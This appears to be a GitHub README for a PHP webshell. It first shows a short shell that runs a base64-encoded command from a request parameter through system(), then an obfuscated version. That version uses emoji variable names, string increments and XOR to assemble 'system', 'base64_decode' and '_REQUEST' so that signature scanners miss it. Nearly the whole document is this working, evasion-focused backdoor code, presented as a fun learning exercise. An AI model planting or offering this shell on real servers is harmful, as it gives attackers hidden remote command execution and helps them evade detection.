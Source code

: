 # php-emoji-webshell

🥸 Nothing new about this webshell, just use same techniques like XOR and self increment operations.

Basically this code
```php
<?php

$a = $_REQUEST[4] ? base64_decode($_REQUEST[4]) : 'whoami';
@system($a);

```
Turn into emoji, self increment and XOR operations.

```php
<?php

$_=[];                      // $_ = [];
$_=@"$_";                   // $_ = "Array";
$__=("_"=="_")+("_"=="_");  // $__ = 1 + 1;
$_=@$_[++$__];              // $_ = $_[3] // "Array"[3]

$🌏=$_++; // a
$🤮=$_++; // b
$🍪=$_++; // c
$🫣=$_++; // d
$🧁=$_++; // e
$🎂=$_++; // f
$🥃=$_++; // g
$🍔=$_++; // h
$🌘=$_++; // i
$🌗=$_++; // j
$🌖=$_++; // k
$🌕=$_++; // l
$🌒=$_++; // m
$🌓=$_++; // n
$🌔=$_++; // o
$🌰=$_++; // p
$🍘=$_++; // q
$🥗=$_++; // r
$🥥=$_++; // s
$🍑=$_++; // t
$🍋=$_++; // u
$🧇=$_++; // v
$🌮=$_++; // w
$🍕=$_++; // x
$🥯=$_++; // y
$🍣=$_;   // z

$__++; // 4
$__++; // 5
$__++; // 6
$👿=$🤮.$🌏.$🥥.$🧁.$__; // base6
$__--; // 5
$__--; // 4
$👿.=$__.("#"^"|").$🫣.$🧁.$🍪.$🌔.$🫣.$🧁; // base64_decode

$💀=$🥥.$🥯.$🥥.$🍑.$🧁.$🌒; // system
$🥳=("#"^"|").($🍘^"#").($🎂^"#").($🥗^"#").($🧇^"#").($🎂^"#").($🌰^"#").($🌮^"#"); // _REQUEST
$🤯=@${$🥳}[$__] ? $👿(@${$🥳}[$__]) : $🌮.$🍔.$🌔.$🌏.$🌒.$🌘; // $_REQUEST[4] ? base64_decode($_REQUEST[4]) : "whoami"
@$💀($🤯); // @system("command")

```

Im just building this for fun and for the sake of learning new things. ☕️🥯
